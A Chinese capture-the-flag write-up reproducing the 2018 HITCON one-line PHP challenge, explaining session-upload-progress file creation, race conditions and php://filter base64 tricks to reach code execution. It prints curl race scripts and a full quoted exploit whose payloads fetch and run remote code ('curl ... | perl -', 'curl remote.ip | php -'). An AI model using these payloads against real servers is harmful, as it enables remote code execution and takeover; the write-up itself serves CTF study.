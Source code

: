 ```yaml
---
title: one-line-php-challenge 复现
date: 2018-11-23 08:31:07
---
```


# 源码

环境：`This is a default installation PHP7.2 + Apache on Ubuntu 18.04` 。

![alt](2018-10-23_200848.png) 

# 解读

- `$_GET` 是一个数组，包含通过URL参数传给当前脚本的变量。如访问`localhost?orange=123&foo=bar` ，则 `$_GET` 为 `array ('orange' => '123','foo' => 'bar',)` ，`$_GET['orange']` 为`'123'` 。另外，`$_GET` 是超全局变量，即在全部作用域中始终可用的内置变量。
- `@`被称为错误控制运算符（Error Control Operators）。当将其放置在一个 PHP 表达式之前，该表达式可能产生的任何错误信息都被忽略掉。例如对于内容为`<?php $_=$_GET['orange'];` 的PHP文件，直接访问其会报错 `Notice :  Undefined index: orange in...` ，加上 `@` 后就不会显示错误信息。
- 赋值操作。和C语言中的情况一样，赋值表达式的值就是赋值符号右侧的操作数的值。`The value of an assignment expression is the value assigned` 。
- `$_` 。一个普通的变量名。
- `file()` 。把整个文件读入数组中。
  - `array file ( string $filename [, int $flags = 0 [, resource $context ]] )`  
  - ![1542959895935](1542959895935.png)
  - ![1542960054923](1542960054923.png) 
- `string substr ( string $string , int $start [, int $length ] )` 。
- include 语句包含并运行指定文件。
- `(expr1) ? (expr2) : (expr3)` 是一个条件运算符，和C语言类似。
- 使用orange参数从URL传入一个文件名，如果该文件第一行的前六个字符是`@<?php` ，就将它包含并运行。
- 相关文档： [Assignment Operators](http://php.net/manual/en/language.operators.assignment.php) , [$_GET](http://php.net/manual/en/reserved.variables.get.php) , [Error Control Operators](http://php.net/manual/en/language.operators.errorcontrol.php) ,  [三元运算符](http://php.net/manual/zh/language.operators.comparison.php#language.operators.comparison.ternary) 

# 关键点

## 创建文件

`allow_url_include` 默认值是`off` ，因此无法包含远程文件。那么如果要包含本地文件，就需要已知的文件名和可控的文件内容。

最主要的利用点在于：如果在上传文件的同时POST `PHP_SESSION_UPLOAD_PROGRESS` 参数，PHP就会为我们创建session，并且session文件名可以通过cookie中的PHPSESSID控制。

做个实验。

我的环境：`PHP7.2 + Apache on Kali 4.18` 

![1542968416018](1542968416018.png)

会发现确实如此。而且不仅如此。

```bash
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking' -F 'file=@/etc/passwd' 1>/dev/null
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange2' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking2' -F 'foobar=anystring' 1>/dev/null
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange3' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking3'  1>/dev/null
curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=iamnotorange4' -d 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking4'  1>/dev/null
```

我执行了四次请求。第一次是使用multipart传一个文件和一个字符串，可以同时生成session文件并且控制文件名，第二次传两个字符串，只能生成文件，文件名是随机的，第三次只有一个字符串，效果同第二次，第四个直接post一个字符串，无法生成session文件。四次请求的报文形式如下。

![第一次](1542969726963.png)

![第二次](1542969783918.png)

![第三次](1542969815646.png)

![第四次](1542969856431.png)

但是我们还会发现，无论怎样请求，文件内容总是为空，这是因为 `session.upload_progress.cleanup=on` ，导致文件一上传完马上被清空。这是我们可以用条件竞争或者传超大文件来保留文件内容。

### 条件竞争

```python
#loop.py
import os
from multiprocessing.dummy import Pool as threadpool

sessname="iamnotorange"
def runner(i):
	cmd="curl -s 127.0.0.1/oneline.php -H 'Cookie: PHPSESSID=%s' -F 'PHP_SESSION_UPLOAD_PROGRESS=this_is_findneo_speaking' -F 'file=@/etc/passwd' 1>/dev/null"%sessname
	os.system(cmd)
	os.system("xxd /var/lib/php/sessions/sess_%s "%sessname)
pool=threadpool(30)
result=pool.map_async(runner,range(30)).get(0xffff)
```

![1542964721887](1542964721887.png)

可以观察到，文件内容的前一部分是可控的。

### 超大文件

## 变换文件内容

到此为止，我们实现了控制文件名和文件内容，但是文件内容的形式是固定的，即以`upload_progress_` 开头，而我们期望他是以 `@<?php` 开头。于是需要变换文件内容，可以利用 `php://filter` ，比如将文件内容多次base64解码得到我们想要的字符串。

base64解码的特点在于：

- 可以将字符串每四个字符分一组，每组解码后变成三个字符，组与组之间互不影响。
- base64编码后的字符串只会包含 `[0-9a-z-A-Z+\=]` ，如果解码时遇到这些字符之外的就会被忽略，或者说，解码前会先将非法字符删除。

所以实际上

```bash
python -c "import base64;print base64.b64decode('\x11\x22\x23\x24'*24+base64.b64encode('test'))"
```

的执行结果还是test。

我们只要想办法让`upload_progress_` 解码后成为不合法字符从而被忽略就可以了，所以需要加一些垃圾数据。因为 `upload_progress_` 有16个字符

```python

```

# 结合利用

将诸如 

```
@<?php `curl remote.ip | php - ;?>`
```

的payload三次编码再加上填充数据后作为 `PHP_SESSION_UPLOAD_PROGRESS` 的值上传，然后利用

`php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/var/lib/php/sessions/sess_whatever` 包含进来即可执行命令。可采用多线程竞争或者大文件上传保留session文件。

```python
#https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2018/one-line-php-challenge/exp_for_php.py
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool



HOST = 'http://54.250.246.238/'
sess_name = 'iamorange'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = '@<?php `curl orange.tw/w/bc.pl|perl -`;?>'


while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        payload = xxx
        print payload
        break

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload + 'Z'
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
    while 1:
        url = '%s?orange=%s' % (HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        if c and 'orange' not in c:
            print [c]


if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```





# 相关链接

- http://www.wupco.cn/?p=4460 
- https://github.com/orangetw/My-CTF-Web-Challenges#one-line-php-challenge 
- https://bugs.php.net/bug.php?id=72681 